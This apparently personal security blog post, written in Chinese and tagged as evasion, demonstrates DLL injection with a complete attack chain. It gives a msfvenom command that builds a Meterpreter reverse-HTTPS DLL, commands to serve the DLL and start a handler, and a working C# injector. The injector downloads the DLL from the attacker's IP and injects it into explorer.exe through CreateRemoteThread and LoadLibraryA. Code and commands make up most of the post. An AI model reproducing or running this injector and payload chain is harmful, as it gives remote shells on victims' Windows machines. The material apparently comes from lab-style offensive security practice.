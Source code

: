 ```yaml
---
title: dll注入的演示
categories:
- evasion
tags:
- evasion
---
```


## 前景提要
[whale的DLLHijack本地提权教程](https://www.acfun.cn/v/ac12864807)

[进程注入与迁移](https://www.bilibili.com/video/BV1UA411K7C8)

## 本期内容
dll注入的演示

1.exe
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/1.PNG)

2.exe

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/2.PNG)

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.123.138 lport=2333 -f dll -o whale.dll

python -m SimpleHTTPServer 80

handler -H 192.168.123.138 -P 2333 -p windows/x64/meterpreter/reverse_https

## 小实验
“C:\Program Files (x86)\Microsoft Visual Studio\2019\Enterprise\MSBuild\Current\Bin\Roslyn\csc.exe” /unsafe /platform:x64 2.cs

缺点：dll落盘，会被杀软查杀

```
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace Inject
{
	class Program
	{
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
		processId);
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
		dwSize, uint flAllocationType, uint flProtect);
		[DllImport("kernel32.dll")]
		static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
		byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
		[DllImport("kernel32.dll")]
		static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
		lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
		dwCreationFlags, IntPtr lpThreadId);
		[DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
		SetLastError = true)]
		static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
		[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
		public static extern IntPtr GetModuleHandle(string lpModuleName);
		static void Main(string[] args)
		{
			String dir =
			Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
			String dllName = dir + "\\whale.dll";
			WebClient wc = new WebClient();
			wc.DownloadFile("http://192.168.123.138/whale.dll", dllName);
			Process[] expProc = Process.GetProcessesByName("explorer");
			int pid = expProc[0].Id;
			IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
			IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
			IntPtr outSize;
			Boolean res = WriteProcessMemory(hProcess, addr,
			Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
			IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
			"LoadLibraryA");
			IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
			addr, 0, IntPtr.Zero);
		}
	}
}

```

## 参考资料
https://github.com/tyranid/DotNetToJScript

